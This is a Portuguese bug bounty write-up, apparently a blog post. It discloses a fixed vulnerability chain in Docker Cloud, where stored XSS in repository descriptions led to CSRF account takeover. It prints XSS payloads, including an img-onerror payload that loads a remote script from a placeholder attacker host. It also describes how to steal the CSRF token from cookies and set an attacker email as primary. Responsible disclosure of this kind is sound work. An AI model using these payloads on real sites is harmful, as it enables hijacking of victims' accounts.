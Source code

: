 ```yaml
---
layout: post
title:  "Bug Bounty 00 - Full Account Takeover Docker Cloud (My First CSRF)"
date:   2019-05-15 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei no(<a href="https://cloud.docker.com/" target="_blank">Docker Cloud</a>). Esta falha já foi corrigida e tive permissão de falar sobre ela citando o vendor, então vamos la :)
</p>

<br>

<p align="justify">
Bom, a vulnerabilidade que está no título foi o resultado final de uma cadeia (chain) de outras vulnerabilidades que encontrei inicialmente no domínio do Docker Cloud.
</p>

<br>

<p align="justify">
Enquanto navegava pelos repositórios do Docker Cloud, percebi que o usuário podia inserir uma  breve e também uma completa descrição a respeito do projeto. Decidi inserir algumas tags na descrição completa só para teste mesmo (não esperava que realmente iria acontecer), comecei com o famoso <code>&lt;script&gt;alert(document.domain);&lt;/script&gt;</code> e para minha não surpresa, não ocorreu nada.
<br>
Decidi então inserir uma tag de imagem com um evento Javascript, &lt;img src="x" onerror="alert(document.domain)"/&gt;, salvei e quando a descição foi atualizada, boooommm :)
<img src="/images/bug_bounty/bb00-00.png"/>
</p>

<br>

<p align="justify">
Neste ponto, já havia um XSS Stored (Armazenado), pois qualquer usuário que visitasse o meu repositório com o código iria se deparar com o alert(document.domain) sendo executado.
<br>
Foi então que tive uma ideia de escalar ainda mais a vulnerabilidade, então fui procurar mais sobre e me deparei com o CSRF (Cross Site Request Forgery), que é um tipo de ataque onde você força o usuário a relizar ações forjadas (o usuário acha que está realizando uma ação, mas na verdade está realizando outra). Descobri que para isso eu teria que carregar um script externo, e como a tag script não estava disponível, foi necessário utilizar os eventos JS das tags HTML :)
<br>
Usei o seguinte payload <code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/reset.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> que tem como objetivo inserir um novo atributo do tipo javascript no head do HTML da página que será carregado a partir do arquivo <i>reset.js</i> que no caso é o arquivo js que contém o código do exploit.
</p>

<br>

<p align="justify">
Para realizar as requisições, era necessário ter o XCSRF-Token do usuário e também que ele estivesse no domínio cloud.docker.com (pode ser acessado pelo domínio hub.docker.com também :) ), pois apenas ele tinha permissão de realizar as requisições para a api.
<br>
Estas requisições, são as responsáveis pela inserção do email do atacante na conta do usuário e pela definição deste email como primário (quando o usuário reseta a senha o link é enviado para o email primário), portanto o usuário pode ter vários emails, mas o link só será enviado para o endereço de email primário.
</p>

<br>

<p align="justify">
Então, primeiramente para ter acesso ao XCSRF-Token do usuário, foi necessário apenas obtê-lo pelo document.cookie (não estava com a flag httpOnly habilitada).
<br>
E para realizar as requisições, primeramente, no exploit verificava se a URL atual que o usuário estava acessando o repositório era cloud.docker.com, caso fosse positivo ele apenas realizaria as requisições, caso contrário ele redirecionava o usuário para o domínio permitido para realizar as requisições (cloud.docker.com).
</p>

<p align="justify">
Tendo tudo isso em mãos, era necessário apenas realizar as requisições para adicionar o email do atacante na conta do usuário e setar como email primário :)
<br>
Vale lembrar que o email que o atacante utilizaria não deveria estar cadastrado em nenhuma outra conta :)
<br>
Tendo efetuado com sucesso o ataque, o atacante teria acesso permanente à conta do usuário, pois mesmo que fosse enviado um link para resetar a senha, seria enviado para o email primário da conta (no caso o do atacante).
</p>

<br>

<p align="justify">
Então resumindo, foi utilizado um XSS Stored encadeado com um CSRF para ter acesso permanente à conta de qualquer usuário que acessasse o repositório malicioso :).
</p>

<br>

<p align="justify">
Abaixo há a PoC da vulnerabilidade:
<iframe width="560" height="315" src="https://www.youtube.com/embed/wHWfAo76xMY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</p>

<p align="justify">
Bom galera, espero que eu tenha passado de forma clara essa resolução da vulnerabilidade encontrada no docker, como já disse ela foi corrigida, já fui recompensado e também fui permitido de realizar o disclosure.
<br>
Irei trazer mais resoluções ao longo do tempo.
<br>
Antes que eu esqueça, o exploit pode ser encontrado no meu github: <a href="https://github.com/vitor-fernandes/exploits/blob/master/exploitDocker.js" target="_blank">Exploit Cloud Docker</a> 
</p>